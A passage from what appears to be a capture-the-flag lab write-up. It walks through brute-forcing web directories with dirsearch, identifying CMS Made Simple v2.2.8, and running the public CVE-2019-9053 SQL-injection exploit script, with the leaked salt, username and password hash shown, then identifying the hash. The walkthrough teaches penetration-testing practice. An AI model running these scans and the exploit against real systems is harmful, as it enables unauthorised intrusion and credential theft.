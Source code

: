 ```text
```
 - The Disallowed page `/openemr-5_0_1_3` sounds interesting, but sadly only leads to a 404.
 - We need more info, time to try and brute force the web server for other pages.

 - Using `dirsearch` we can do this super easily.
```bash
python3 dirsearch.py -u http://TARGET_IP -e html,php -x 403 -t 200
```

 - From our searching we see that `/simple` is a valid path. Going to this page takes us to a CMS Made Simple web app.
 - Scrolling down we can see the name and version of this app => `CMS Made Simple v2.2.8`.

#### Web Server Part 2 - Exploit
 - Searching `CMS Made Simple v2.2.8 CVE` on Google quickly finds us a Unauthenticated SQL injection vulnerability [Exploit DB => CVE-2019-9053](https://www.exploit-db.com/exploits/46635).

 - Downloading and running the script...
```bash
python cve-2019-9053.py -u http://TARGET_IP/simple
```

 - We get some VERY useful information:
```text
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
```

 - Using Kali or another tool, we can try and identify the hash. Using `hash-identifier` in Kali gives us the following:
```text
   -------------------------------------------------------------------------
 HASH: 0c01f4468bd75d7a84c7eb73846e8d96

Possible Hashs:
[+]  MD5
[+]  Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))

Least Possible Hashs:
[+]  RAdmin v2.x
[+]  NTLM
[+]  MD4
[+]  MD2
[+]  MD5(HMAC)
[+]  MD4(HMAC)
[+]  MD2(HMAC)
[+]  MD5(HMAC(Wordpress))
[+]  Haval-128
[+]  Haval-128(HMAC)
[+]  RipeMD-128
[+]  RipeMD-128(HMAC)
[+]  SNEFRU-128
[+]  SNEFRU-128(HMAC)
[+]  Tiger-128
[+]  Tiger-128(HMAC)
[+]  md5($pass.$salt)
[+]  md5($salt.$pass)
[+]  md5($salt.$pass.$salt)
[+]  md5($salt.$pass.$username)
...
```

